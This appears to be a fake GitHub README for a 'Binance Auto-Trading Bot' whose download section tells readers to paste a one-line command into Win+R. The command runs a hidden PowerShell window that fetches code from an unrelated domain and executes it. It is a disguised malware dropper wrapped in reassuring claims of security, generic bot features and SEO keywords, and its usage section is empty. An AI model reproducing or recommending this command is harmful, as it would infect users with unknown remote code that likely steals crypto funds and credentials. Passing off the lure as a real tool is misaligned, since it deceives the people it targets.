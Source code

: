 # Binance Auto-Trading Bot 🤖💰

<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>

## Project Description
**Binance Trade Bot** is an automated trading bot for the Binance platform that allows users to trade cryptocurrencies using algorithmic trading. This bot utilizes trading strategies based on technical analysis and can be configured to work with various cryptocurrency pairs.

## Key Features
- **Automated Trading**: The bot can automatically open and close trades based on the parameters you set.
- **Multi-Currency Support**: Works with various currency pairs on Binance.
- **Customizable Strategies**: Easily customizable trading strategies, including moving averages, RSI, and other indicators.
- **Security**: All API keys are stored securely, and the bot does not store users' personal data.
- **User -Friendly Interface**: Intuitive interface for setting up and monitoring trades.


## Usage 🚀
Run the bot using the following command:


## Example Strategies 📈
- **Moving Average Strategy**: Uses the crossover of short and long moving averages to open trades.
- **RSI Strategy**: Opens trades based on the relative strength index (RSI) values.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [Binance Community](https://www.binance.com/en/support)

---

**SEO Keywords**: Binance Trading Bot, binance trade, trading bot binance

